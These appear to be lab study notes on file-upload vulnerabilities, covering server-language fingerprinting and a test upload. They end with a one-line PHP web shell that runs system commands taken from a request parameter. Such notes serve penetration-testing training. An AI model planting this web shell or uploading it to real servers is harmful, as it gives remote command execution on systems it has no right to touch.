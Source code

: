 # Basic Exploit

This is when the webapplication accepts any type of file without any validation, (can drag and drop any file type)

### Identifying Web Framework

A **web shell has to be written in the same programming language that runs the web server**, as it runs platform-specific functions and commands to execute system commands on the back-end server, making web shells non-cross-platform scripts

Easy method to determine what language runs the web application

* Access /index.ext and swap ext with various web extensions (php, asp, aspx)

> we can use ffuf or burp to enumerate the file extension. Note that some webapps doesn't use index page or have more than one web extensions

<figure><img src="https://academy.hackthebox.com/storage/modules/136/file_uploads_wappalyzer.jpg" alt=""><figcaption><p>wappalyzer to check for technologies</p></figcaption></figure>

### Vulnerability Identification

After knowing web technologies, we have to check if the webapp is vulnerable.

Test with `<?php echo "Hello HTB";?>` and upload the text to the webapp

Then access the location where the file is stored.

```
http://SERVER_IP:PORT/uploads/test.php
```

<figure><img src="https://academy.hackthebox.com/storage/modules/136/file_uploads_hello_htb.jpg" alt=""><figcaption><p>VULNERABLE</p></figcaption></figure>

### Assessment

```
<?php echo system($_REQUEST['cmd']); ?>
```

<figure><img src="../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption><p>ng-absentvalidation-m7kdm-9cf465b66-wxjhj</p></figcaption></figure>

